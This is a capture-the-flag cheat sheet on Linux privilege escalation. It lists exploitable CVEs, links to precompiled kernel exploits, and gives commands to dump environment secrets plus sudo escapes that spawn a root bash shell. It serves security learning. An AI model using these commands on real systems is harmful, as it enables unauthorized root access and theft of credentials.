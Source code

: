 # Attacking Linux Boxes

#### Most Common CVEs used on CTFs

| # | CVE                                                                     | Description                                                                           |
| - | ----------------------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit. Can be used against CGI-Bin also.                       |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja)                      | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/)         | Also known as EternalRed. This is the EthernalBlue of Linux SMB File Servers.         |

#### Post Exploitation - Privilage Escalation

_Automated Tools:_

| Tool                                                                                                      | Description                                                                  |
| --------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) | A script that search for possible paths to escalate privileges on Linux/Unix |

### Manual Privilage Escalation

_Grabbing OS Information_

```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

_Checking $PATH for Write Permissions_ If you have **write permissions on any folder inside the `PATH` variable** you may be able to hijacking some libraries or binaries:

```
echo $PATH
```

_Checking Environment Variables_ Looking for interesting information, passwords or API keys in the environment variables.

```
(env || set) 2>/dev/null
```

_Enumerate Misconfigured `sudo`_ Run this command to see what programs you has access to using sudo.

```
sudo -l
```

_Exploiting Misconfigured `sudo`_

| # | Language | Commands                                              |
| - | -------- | ----------------------------------------------------- |
| 1 | Python   | `sudo python3 -c 'import os; os.system("/bin/bash")'` |
| 2 | Ruby     | `sudo ruby -e 'system("/bin/bash")'`                  |
| 3 | NodeJS   | `node -e '[...]()'`                                   |

_NodeJS Privilage Exculation Script_

```
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

### Kernel Exploits

Check the Kernel version for a possible CVE.

```
cat /proc/version
uname -a
```

_Searching for an exploit via SearchSploit_

```
searchsploit "Linux Kernel"
```

_Resources with Compiled Kernel Exploits_

| # | Resource                                                                                               | Description                                             |
| - | ------------------------------------------------------------------------------------------------------ | ------------------------------------------------------- |
| 1 | [Lucyoa's Github](https://github.com/lucyoa/kernel-exploits)                                           | Linux Kernel Exploits, Precompiled.                     |
| 2 | [bwbwbwbw's GitHub](https://github.com/bwbwbwbw/linux-exploit-binaries)                                | List of very common Linux Kernel Exploits, Precompiled. |
| 3 | [Kabot's Privilege Escalation Packs](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) | Another lsit of Linux Kernel Exploits, Precompiled.     |

## Resources Referenced

_Special Thanks to:_

| # | Name         | Resource                                                    |
| - | ------------ | ----------------------------------------------------------- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
